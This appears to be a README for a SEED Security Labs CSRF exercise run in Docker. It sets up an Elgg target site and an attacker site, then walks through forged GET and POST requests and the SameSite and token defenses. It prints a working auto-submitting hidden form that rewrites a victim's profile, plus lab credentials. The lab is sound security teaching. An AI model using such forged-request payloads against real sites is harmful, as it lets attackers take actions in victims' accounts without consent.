

# Lab 03 — Cross-Site Request Forgery (CSRF) Attack Lab

**Implementation Type**: Official SEED source adapted for Docker

Official lab manual: https://seedsecuritylabs.org/Labs_20.04/Web/Web_CSRF_Elgg/
Textbook: Chapter 10 — Cross-Site Request Forgery (*Computer & Internet Security*, 2nd Ed., Prof. Wenliang Du)
Lecture Sync Sitemap: [SEED Lecture & Reference Sitemap](../../docs/lectures-and-references.md#4-lab-03--cross-site-request-forgery-csrf)
CWE Reference: [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

For authorized educational use only.

> **HOST BROWSER ROUTING NOTICE**: Access Target site in host browsers via `http://localhost:10082` (or `http://www.seed-server.com:10082`) and Attacker site via `http://localhost:10083` (or `http://www.attacker32.com:10083`). Do not use internal container IPs `10.9.0.5` or `10.9.0.105` directly in host browsers.  
> **CONTAINER COMMAND FALLBACKS**: If `bash` is missing: `docker exec -it elgg-10.9.0.5-csrf sh`. If `ip` is missing: `hostname -i`. If `ss` is missing: `netstat -tlnp`.

---

## Security Concept

### The Security Hole
The target web application relies on session cookies for authentication and does **not** verify the origin of state‑changing requests. Browsers automatically include stored cookies on any request to the target domain, even when the request originates from a different site.

### How it Causes a Problem
An attacker can host a malicious page on a separate domain (e.g., `www.attacker32.com`). When a victim who is logged into the target site (`www.seed-server.com`) visits the malicious page, the attacker’s page can silently issue forged HTTP requests (GET or POST) to the target site. Because the browser attaches the victim’s authentication cookie, the target server processes the request as if it originated from the victim, allowing actions such as adding friends, changing settings, or performing transactions without the victim’s consent.

```
Alice logs into www.seed-server.com → Browser stores session cookie.
Alice visits www.attacker32.com → Malicious page includes:
  
Browser automatically sends the stored cookie with the request → www.seed-server.com adds Samy as Alice’s friend.
```



```mermaid
sequenceDiagram
    actor Alice as Alice (Victim)
    participant Target as Elgg Target Site\n(www.seed-server.com:10082)
    participant Attacker as Attacker Site\n(www.attacker32.com:10083)
    participant DB as MySQL (mysql-10.9.0.6-csrf)

    Alice->>Target: POST /action/login  (alice / seedalice)
    Target-->>Alice: Set-Cookie: Elgg=sessiontoken123  (stored by browser)

    Note over Alice,Attacker: Alice visits the attacker site (same browser)
    Alice->>Attacker: GET / (page loads)
    Attacker-->>Alice: HTML with hidden <img> and auto-submit <form>

    Note over Alice,Target: Browser auto-fires forged GET request
    Alice->>Target: GET /index.php?action=addfriend&friend=59\nCookie: Elgg=sessiontoken123  (sent automatically!)
    Target->>DB: INSERT friend relationship (alice, samy)
    DB-->>Target: OK
    Target-->>Alice: 200 OK (Samy added as friend — Alice never clicked anything)

    Note over Alice,Target: Browser auto-submits hidden POST form
    Alice->>Target: POST /index.php  action=update_profile&bio=Hacked!\nCookie: Elgg=sessiontoken123  (sent automatically!)
    Target->>DB: UPDATE profile SET bio='Hacked!' WHERE user=alice
    DB-->>Target: OK
    Target-->>Alice: 200 OK (profile changed — Alice had no idea)
```

### How it is Fixed
Defense mechanisms include:
- **Anti‑CSRF Tokens**: Embed a secret, per‑session token in each HTML form or AJAX request and validate it server‑side. The token is not sent automatically by the browser, so forged requests lack it.
- **SameSite Cookie Attribute**: Set cookies with `SameSite=Strict` or `SameSite=Lax` to prevent them from being sent on cross‑site requests.
- **Referer/Origin Header Checks**: Verify that state‑changing requests originate from the same origin as the application.

By implementing any of these mitigations, the server can distinguish legitimate user‑initiated actions from forged cross‑origin requests.

This lab requires two containers — one for the target site and one for the attacker site — to correctly simulate the cross-origin attack scenario.

---

## Container Architecture

```
HOST MACHINE
  |
  | Hosts file: www.seed-server.com -> 127.0.0.1 (or localhost:10082)
  | Hosts file: www.attacker32.com  -> 127.0.0.1 (or localhost:10083)
  |
  | Port 10082 -> elgg-10.9.0.5-csrf:80      (target site)
  | Port 10083 -> attacker-10.9.0.105:80     (attacker site)
  |
  Docker Bridge Network: net-10.9.0.0-csrf (10.9.0.0/24)
    |
    +---- elgg-10.9.0.5-csrf   (Apache + PHP + Elgg, www.seed-server.com)
    |         |
    +---- mysql-10.9.0.6-csrf  (MySQL 8.0 + elgg_csrf database)
    |
    +---- attacker-10.9.0.105  (Apache static, www.attacker32.com)
```



---

## Layer 1 — Docker Commands (host terminal)

### Start the Lab

```bash
# Change into the CSRF lab directory (contains docker-compose.yml with 3 services)
cd labs/03-csrf

# Windows PowerShell: builds all 3 images and starts containers in detached mode
.\start.ps1

# Linux / WSL2 bash equivalent
./start.sh

# Manual equivalent
# This lab starts 3 containers: elgg (target site), mysql, attacker (malicious site)
docker compose up -d --build
```

### Verify Container Status

```bash
# List all 3 containers with their status and exposed ports
# elgg-10.9.0.5-csrf:80 -> host:10082 (target), attacker-10.9.0.105:80 -> host:10083 (attacker)
docker compose ps

# Inspect the Elgg target container — confirms IP 10.9.0.5 on the CSRF bridge network
docker inspect elgg-10.9.0.5-csrf

# Inspect the attacker container — confirms IP 10.9.0.105, separate Apache instance
docker inspect attacker-10.9.0.105
```

---

## Layer 2 — Linux Commands (inside the container)

### Open Bash Shell

```bash
# Open an interactive bash shell inside the Elgg target container
# Use this to inspect PHP source, edit config, or view logs
docker exec -it elgg-10.9.0.5-csrf bash
```

### Inspect Application Configuration

```bash
# Navigate to the Apache document root inside the container
cd /var/www/html

# Search for action parameters in index.php — these are the endpoints
# the CSRF attack forges (e.g., action=addfriend, action=update_profile)
# Understanding these endpoints tells you exactly what the forged request must contain
grep -n "action" index.php
```

### Exit Container

```bash
# Return from the container shell back to your host terminal
exit
```

---

## Layer 3 — Security Tasks

### Access Applications

```
Target Site:   http://localhost:10082  OR  http://www.seed-server.com:10082
Attacker Site: http://localhost:10083  OR  http://www.attacker32.com:10083
```

---

## Stop and Reset

```bash
docker compose down
docker compose down -v
```

---

## § Complete Demonstration Walkthrough

Follow these steps in order from a cold machine. Every command is shown in both **PowerShell** (Windows) and **raw Docker / bash** equivalents.

**Default lab credentials:**
| Username | Password  | Role     | Elgg GUID |
|----------|-----------|----------|-----------|
| admin    | seedadmin | Admin    | 1         |
| alice    | seedalice | Victim   | 56        |
| samy     | seedsamy  | Attacker | 59        |

> **This lab requires two browser sessions simultaneously** — one as Alice (victim logged into the target site) and one representing visiting the attacker site. Use a normal window for Alice and an Incognito/Private window for the attacker perspective, or use two different browsers.

---

### Step 0 — Verify Docker Desktop is Running

**PowerShell:**
```powershell
docker info | Select-String "Server Version"
```

**Raw Docker:**
```bash
docker info | grep "Server Version"
```

> **Expected:** `Server Version: 27.x.x`
> **If it fails:** Open Docker Desktop from the Start menu, wait ~30 seconds, then re-run.

---

### Step 1 — Navigate to the Lab and Start Containers

**PowerShell:**
```powershell
cd C:\path\to\seed-web-security-docker\labs\03-csrf
.\start.ps1
```

**Raw Docker Compose (equivalent):**
```bash
cd labs/03-csrf
docker compose up -d --build
```

> This lab starts **three** containers: the Elgg target site, MySQL, and the attacker web server.

---

### Step 2 — Verify All Three Containers Are Running

**PowerShell / Raw Docker:**
```bash
docker compose ps
```

**Expected output:**
```
NAME                    IMAGE                          STATUS    PORTS
elgg-10.9.0.5-csrf      seed-image-www-csrf-elgg       Up        0.0.0.0:10082->80/tcp
mysql-10.9.0.6-csrf     seed-image-mysql-csrf          Up        3306/tcp
attacker-10.9.0.105     seed-image-www-csrf-attacker   Up        0.0.0.0:10083->80/tcp
```

All three must show `Up`. If any shows `Exiting`:
```bash
docker compose logs elgg
docker compose logs mysql
docker compose logs attacker
```

**Inspect each container's IP:**
```bash
docker inspect elgg-10.9.0.5-csrf   | grep "IPAddress"
# Expected: "IPAddress": "10.9.0.5"

docker inspect attacker-10.9.0.105  | grep "IPAddress"
# Expected: "IPAddress": "10.9.0.105"
```

---

### Step 3 — Configure the Hosts File (One-Time Setup — Two Entries Required)

This lab requires **two** hostname entries: one for the legitimate target site and one for the attacker's site. Both must be distinct hostnames for the cross-origin attack to work correctly.

**PowerShell (run as Administrator):**
```powershell
Add-Content "C:\Windows\System32\drivers\etc\hosts" "127.0.0.1   www.seed-server.com"
Add-Content "C:\Windows\System32\drivers\etc\hosts" "127.0.0.1   www.attacker32.com"
```

**Verify both entries:**
```powershell
Get-Content "C:\Windows\System32\drivers\etc\hosts" | Select-String "seed-server|attacker32"
```

**Raw bash (Linux/WSL2):**
```bash
echo "127.0.0.1   www.seed-server.com" | sudo tee -a /etc/hosts
echo "127.0.0.1   www.attacker32.com"  | sudo tee -a /etc/hosts
```

> **Why two entries?** The browser enforces the Same-Origin Policy based on hostname. Both sites resolve to `127.0.0.1` on your machine but appear as different origins to the browser — exactly simulating the real-world cross-site attack scenario. Without separate hostnames, the attack would be same-origin and behave differently.
>
> **Skip hosts file?** Use `http://localhost:10082` for target and `http://localhost:10083` for attacker. Note that with `localhost` both share the same origin and the attack demonstration is less accurate.

---

### Step 4 — Open Browser Tab 1: Log In as Alice (Victim)

Open your browser (normal window) and navigate to:
```
http://www.seed-server.com:10082
```
or:
```
http://localhost:10082
```

**What you should see:** The Elgg social network login page.

1. Log in with: **Username:** `alice` / **Password:** `seedalice`
2. After login, verify Alice is logged in — her name appears in the top navigation bar.
3. **Leave this tab open and stay logged in.** Alice's session cookie is now stored in the browser.

---

### Step 5 — Open Browser Tab 2: Visit the Attacker Site

Open a **new browser tab** (same browser, same session) and navigate to:
```
http://www.attacker32.com:10083
```
or:
```
http://localhost:10083
```

**What you should see:** A page titled "Congratulations! You've Won a Free Gift!" with the text "Loading your free gift claim code..."

**What is happening invisibly:**
- The page contains a 1×1 pixel hidden `` tag:
  ```html
  
  ```
- The moment the browser loads this page, it fires a `GET` request to `www.seed-server.com` to add Samy (GUID 59) as Alice's friend.
- Because Alice's session cookie is stored in the browser, the browser **automatically includes it** in the cross-site request.
- The Elgg server receives a fully authenticated-looking request and adds Samy as Alice's friend.

> **Inspect the attacker page source** to see the payload:
> ```
> view-source:http://www.attacker32.com:10083
> ```
> or open the attacker container's source file:
> ```bash
> docker exec -it attacker-10.9.0.105 cat /var/www/html/index.html
> ```

---

### Step 6 — Task 2: Verify the GET CSRF Attack Succeeded

Switch back to **Tab 1** (Alice's session on `www.seed-server.com`).

1. Click **Alice** → **Profile** in the navigation bar.
2. Click the **Friends** tab or section.

**Expected outcome:** Samy now appears in Alice's friends list — even though Alice never clicked "Add Friend". The forged cross-site GET request, sent automatically by the browser when Alice visited the attacker page, was silently accepted and processed by the server.

**Verify the friend relationship in MySQL:**
```bash
docker exec -it mysql-10.9.0.6-csrf mysql -u root -pseedubuntu elgg \
  -e "SELECT guid_one, guid_two FROM elgg_entity_relationships WHERE relationship='friend' AND guid_one=56;"
```
> `guid_one=56` is Alice. If GUID `59` (Samy) appears in `guid_two`, the attack succeeded.

---

### Step 7 — Task 3: CSRF POST Attack — Forge a Profile Update

The attacker page also contains a hidden `<form>` that auto-submits via JavaScript:

```html
<form id="csrf-post-form" action="http://www.seed-server.com/index.php" method="POST">
    <input type="hidden" name="action" value="update_profile">
    <input type="hidden" name="bio" value="Hacked by CSRF attack from www.attacker32.com!">
</form>
<script>
    document.getElementById('csrf-post-form').submit();
</script>
```

**To demonstrate the POST attack cleanly:**

1. First **reset Alice's profile** to a clean state (you can do this via Alice's Edit Profile page).
2. Revisit the attacker page: `http://www.attacker32.com:10083`
3. Switch back to Alice's profile page and **refresh**.

**Expected outcome:** Alice's bio/profile field now reads `"Hacked by CSRF attack from www.attacker32.com!"` — changed without Alice's knowledge or consent.

**Verify in MySQL:**
```bash
docker exec -it mysql-10.9.0.6-csrf mysql -u root -pseedubuntu elgg \
  -e "SELECT value FROM elgg_metadata WHERE name='description' AND entity_guid=56 LIMIT 1\G"
```

---

### Step 8 — Inspect Attacker Files Inside the Container

**Open a shell into the attacker container:**
```bash
docker exec -it attacker-10.9.0.105 bash
```

**Inspect the malicious page:**
```bash
cat /var/www/html/index.html
```

**Check the Apache virtual host config:**
```bash
cat /etc/apache2/sites-enabled/*.conf
```

**Exit:**
```bash
exit
```

---

### Step 9 — Defense Option A: SameSite Cookie Attribute

**Goal:** Configure the session cookie to be `SameSite=Strict` so the browser refuses to send it on cross-site requests.

**Enter the Elgg container:**
```bash
docker exec -it elgg-10.9.0.5-csrf bash
```

**Locate the session cookie configuration:**
```bash
grep -rn "setcookie\|session_start\|SameSite" /var/www/html/ | head -20
```

**Apply `SameSite=Strict`** to the session cookie call in the PHP configuration. Look for `session_set_cookie_params` or `setcookie` and add the `samesite` option:
```php
session_set_cookie_params([
    'samesite' => 'Strict',
    'secure'   => false,   // set true in production with HTTPS
    'httponly' => true,
]);
```

**Exit the container:**
```bash
exit
```

**Re-test:** Visit the attacker page again while logged in as Alice. The browser will no longer send Alice's cookie with the cross-site request — Samy will NOT be added as a friend.

---

### Step 10 — Defense Option B: Elgg's Built-In Secret Token (Anti-CSRF Token)

Elgg has a built-in anti-CSRF token mechanism (`__elgg_token` + `__elgg_ts`). You can observe it in legitimate requests:

1. Open browser DevTools (F12) → **Network** tab.
2. Click "Add Friend" or submit any Elgg form legitimately.
3. Inspect the POST body — you will see `__elgg_token=<hash>&__elgg_ts=<timestamp>`.

The attacker page cannot include a valid token because:
- The token is generated server-side per session.
- JavaScript on `www.attacker32.com` cannot read it from `www.seed-server.com` (blocked by Same-Origin Policy).

**To verify the token validation is active**, try sending a forged request without the token:
```bash
curl -s -b "Elgg=<paste Alice's session cookie here>" \
  "http://localhost:10082/action/friends/add?friend=59" | grep -i "token\|error\|invalid"
```
> **Expected:** An error response about a missing or invalid token. If Elgg's CSRF protection is enabled, the request is rejected.

---

### Step 11 — Teardown

**Stop containers (preserve database state):**

**PowerShell:**
```powershell
docker compose down
```

**Raw Docker:**
```bash
docker compose down
```

**Full reset (wipe all data):**
```bash
docker compose down -v
```

**Verify all CSRF lab containers are stopped:**
```bash
docker ps | grep csrf
# Expected: no output
```

